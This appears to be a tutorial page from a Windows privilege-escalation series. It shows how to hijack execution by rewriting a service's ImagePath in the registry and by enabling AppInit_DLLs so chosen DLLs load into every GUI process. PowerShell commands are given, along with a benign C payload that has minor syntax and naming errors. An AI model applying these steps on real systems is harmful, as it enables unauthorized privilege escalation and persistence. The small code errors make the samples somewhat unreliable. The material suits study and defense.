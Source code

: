 ## DLL Hijacking with Registry

### HKLM\SYSTEM\CurrentControlSet\Services\

Services are a common target for privilege escalation that was already discussed in the series:
- Windows Services
- Weak Service Permissions
- Unquoted Service Path

Specifically, by having write access to the registry path
```powershell
HKLM\SYSTEM\CurrentControlSet\Services\
```

It is possible to change the `imagePath` attribute of arbitrary services. This attribute is used to determine the executable to start when the service is started.

To modify the service `test`
```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\simpleService" -Name ImagePath -Value "C:\Users\Quickemu\Downloads\test.exe"
```

```powershell
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\simpleService"
```

By modifying the binary with a malicious binary, it is possible to hijack execution. Remember to restart the service.
```powershell
Restart-Service -Name test
```

- Windows Services: https://www.youtube.com/watch?v=R9pDCdBWTAk
- Weak Service Permissions: https://www.youtube.com/watch?v=8sLagxX4OVs
- Unquoted Service Path: https://www.youtube.com/watch?v=Hj3Y40z2dSQ

File `test.exe`
```c
// Cross-Compile with
// z86_64-w64ming32-g++ test.c -static -o test

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
	char filepath[512] = "C:/Users/Quickemu/Downloads/test.txt"

	FILE *file = fopen(filepath, "w");
	if (file == NULL) { return 1; }
	fprintf(file, "Hello world\n");
	fclose(file);
	
	return 0;
}
```

### HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs

The `AppInit_DLLs` registry key specifies a list of DLLs that Windows will load into every user-mode application that uses the Microsoft Windows graphical user interface (GUI), specifically those that use the Windows subsystem for applications (Win32).

Since any DLL listed in `AppInit_DLLs` will be loaded by every GUI-based process, this registry key has historically been a target for malicious software. Malware may attempt to use this key to inject its own malicious DLLs into system processes or applications.

As a result, modern versions of Windows have additional protections to restrict or limit the use of AppInit_DLLs, such as blocking the use of the key unless a specific setting is configured to allow it.

Dealing with `LoadAppInit_DLLs`
1. Enable
```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "LoadAppInit_DLLs" -Value 1
```

2. Disable
```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "LoadAppInit_DLLs" -Value 0
```

3. Read
```powershell
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "LoadAppInit_DLLs"
```

Dealing with `AppInit_DLLs`
1. Read
```powershell
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "AppInit_DLLs"
```

2. Set
```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "AppInit_DLLs" -Value "C:\Path\To\Library1.dll;C:\Path\To\Library2.dll;C:\Path\To\Library3.dll"
```
- The different `dlls` are separated by a `;` 